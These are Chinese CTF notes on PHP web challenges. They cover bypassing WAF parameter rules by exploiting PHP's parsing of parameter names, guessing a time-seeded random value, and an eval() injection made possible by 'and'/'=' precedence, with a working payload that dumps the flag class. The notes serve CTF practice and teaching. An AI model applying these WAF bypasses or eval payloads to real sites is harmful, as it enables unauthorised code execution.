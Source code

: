 ## **字符串解析特性**
![](.topwrite/assets/image_1732956120665.png)
原理：<https://blog.csdn.net/bin789456/article/details/120305682>
利用：<https://blog.csdn.net/qq_45521281/article/details/105871192>
如果一个IDS/IPS或WAF中有一条规则是当num参数的值是一个非数字的值则拦截。
则禁用?num=a，但用? num=a，?%20num=a效果一样。也可?[num=a。


^
传参特性
```
$_POST['a_sec']
需要传a[sec=

h_in.t传参h[in.t
```


^
## **时间相关**
```
$guess = $_GET['input'];
$target = random_int(114,114+date('s')*100000);  //114+获取的当前秒数
if(intval($guess) === intval($target)){
    good
}
```
114+获取当前秒数，必然有当前秒数是0，则就是114，所以一直?input=114等到秒数为0时即可。












^
## **运算符优先级**
and优先级低于=
```
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3); //and优先级低于=。
//所以$v0的值就是$v1的判断，检查变量$v1是否包含一个数字值。
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }   
}

要读取一个类实例
var_dump(get_class_vars('ctfshow'));
?v1=1&v2=var_dump(get_class_vars&v3=);
```